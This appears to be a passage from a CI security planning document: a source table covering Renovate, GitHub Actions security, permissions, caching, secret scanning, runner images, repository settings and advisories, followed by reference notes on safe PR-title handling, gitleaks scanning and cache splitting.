| `renovate` | 44.149.2 | `npm view`; docs and presets at tag `44.149.2` | `minimumReleaseAge`, `internalChecksFilter: strict`, `minimumReleaseAgeBuffer` (30 min default, for pnpm's cooldown); `config:best-practices` includes `helpers:pinGitHubActionDigests` and `security:minimumReleaseAgeNpm` (3 days); digest updates of actions age against the tag's original date; `vulnerabilityAlerts` skip schedule and limits; pnpm catalogs extracted (`extract/pnpm.ts`); cooldown on vulnerability PRs: **verify**; hosted app's terms for public repos: **verify** |
| GitHub Actions security | n/a | docs.github.com "Secure use reference" | full SHA "the only way to use an action as an immutable release"; intermediate environment variable for untrusted input; avoid `pull_request_target`; repo and org policies can require SHA pinning |
| Events | n/a | docs.github.com "Events that trigger workflows" | `pull_request`: merge ref, no secrets and read-only token from forks, default types opened, synchronize, reopened, no run on merge conflict; `pull_request_target`: base context, secrets, write token, cache poisoning warning |
| `permissions` | n/a | docs.github.com "Workflow syntax" | listing any permission sets the rest to `none`; `permissions: {}`; job level overrides |
| Dependency caching | n/a | docs.github.com "Dependency caching reference" | branch, base and default-branch scopes; PR caches scoped to the merge ref; 10 GB per repo; 7 days unused eviction; entries immutable |
| Required checks | n/a | docs.github.com (control jobs with conditions; troubleshooting required status checks, GHES 3.16 copy found by search) | skipped job reports Success; workflow skipped by path, branch or commit-message filter leaves checks Pending and blocks merge |
| Push protection, secret scanning | n/a | docs.github.com "About push protection", "About secret scanning" | blocks before the push lands (CLI, web, upload, API); bypass with a reason creates an alert; secret scanning free on public repos, full history all branches plus issues, PRs, wikis; partner notification; non-provider patterns and validity checks on free public repos: **verify** |
| Private vulnerability reporting | n/a | docs.github.com | public repos; notifies admins and security managers |
| Merge queue | n/a | docs.github.com | needs `merge_group`; availability for personal-account repos: **verify** |
| GitHub-hosted runners | `ubuntu-latest` = Ubuntu 24.04, image 20261004.327.1 | docs.github.com; `actions/runner-images` readme | public repos: 4 vCPU, 16 GB, free and unlimited; Docker 28.0.4, Compose 2.38.2, Google Chrome 154 |
| This repo's settings | 2026-10-10 | `gh api` | public, personal account; squash only, title `PR_TITLE`; default workflow token read, cannot approve PRs; all actions allowed, `sha_pinning_required` false; secret scanning and push protection on, non-provider patterns and validity checks off; Dependabot alerts and security updates on; private vulnerability reporting on; ruleset `protect-main` (deletion, non-fast-forward, PR with 0 approvals, merge methods merge, squash, rebase), no required checks; CodeQL default setup configured with no languages, failed run 2026-10-05; Dependabot update run failed 2026-10-06 (esbuild) |
| tj-actions/changed-files | GHSA-mrrh-fwg8-r2c3 | github.com/advisories | CVE-2025-30066, 2025-03-14 to 15; tags moved to a malicious commit that printed secrets to logs; fixed in 46.0.1 |
| `esbuild` advisories | n/a | GitHub advisory API; api.osv.dev | GHSA-g7r4-m6w7-qqqr `>= 0.27.3, < 0.28.1`; GHSA-67mh-4wv8-2f99 `<= 0.24.2`; lockfile holds 0.25.12 and 0.28.2 |

## Delegated details

Reference only; never asked.

- Job-level `if:` from Turborepo: `turbo query affected --packages @jadero/web --exit-code` (or the JSON with `jq`) in a small first job, its result passed through `outputs:` and `needs:`.
- Splitting the cache: `actions/cache/restore` with `key` and `restore-keys` in every run; `actions/cache/save` with the same key only `if: github.ref == 'refs/heads/main'`.
- Passing the PR title safely: `env: { TITLE: ${{ github.event.pull_request.title }} }`, then `printf '%s\n' "$TITLE" | pnpm exec commitlint`.
- gitleaks in a container: `docker run --rm -v "$PWD:/repo" ghcr.io/gitleaks/gitleaks@sha256:<digest> git /repo --redact --log-opts="$BASE..HEAD"`; the index digest is resolved in step 6.
- Coverage summary table: the `json-summary` reporter writes `coverage/coverage-summary.json` per package; a script reads each `total.lines.pct` and `total.branches.pct` and appends a Markdown table to the file named by `$GITHUB_STEP_SUMMARY`.
- Scorecard's job restrictions when publishing: no top-level write permissions in that workflow, and only approved actions in the publishing job (its README, "Workflow restrictions").
- Renovate groups: `packageRules` with `matchPackageNames` patterns and `groupName`; `matchUpdateTypes: ["major"]` with `groupName: null` to keep majors alone; `matchManagers: ["github-actions"]` for the actions group.
- Service containers, for reference: `services: postgres: { image: ..., ports: ["5432:5432"], options: --health-cmd ... }`; Linux runners only; a job on the runner reaches them at `localhost:<port>`.
